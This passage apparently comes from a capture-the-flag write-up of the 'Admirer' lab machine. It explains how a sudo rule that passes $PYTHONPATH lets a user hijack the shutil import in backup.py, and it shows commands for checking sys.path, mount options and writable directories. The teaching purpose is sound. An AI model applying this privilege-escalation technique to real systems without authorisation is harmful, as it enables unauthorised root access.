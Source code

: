 It turns out there is a path to exploit backup.py. As shown above, I can pass a $PYTHONPATH into sudo. So what is that variable? When a Python script calls import, it has a series of paths it checks for the module. I can see this with the sys module:

```
waldo@admirer:/opt/scripts$ python3 -c "import sys; print('\n'.join(sys.path))"

/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3/dist-packages
```

The first empty line is important - it is filled at runtime with the current directory of the script (so if waldo could write to /opt/scripts, I could exploit it that way). On this system, $PYTHONPATH is current empty:
```
waldo@admirer:/opt/scripts$ echo $PYTHONPATH


```
If I set it and run look at sys.path again, my addition is added:
```
waldo@admirer:~$ export PYTHONPATH=/tmp

waldo@admirer:/opt/scripts$ python3 -c "import sys; print('\n'.join(sys.path))"

/tmp
/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3/dist-packages
```

This means that Python will first try to look in the current script directory, then /tmp, then the Python installs to try to load shutil.

Playing around with this box for a few minutes, it becomes clear that /tmp and /home/waldo are being cleared of files I create every couple minutes. Those aren’t very OPSEC smart places to be working anyway. I could look at /dev/shm, but it’s mounted as noexec:
```
waldo@admirer:/opt/scripts$ mount | grep shm

tmpfs on /run/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=1019460k)

```

I can look for writable directories:
```
waldo@admirer:/opt/scripts$ find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'

/var/lib/php/sessions
/var/tmp
/tmp
/home/waldo
/home/waldo/.nano
```
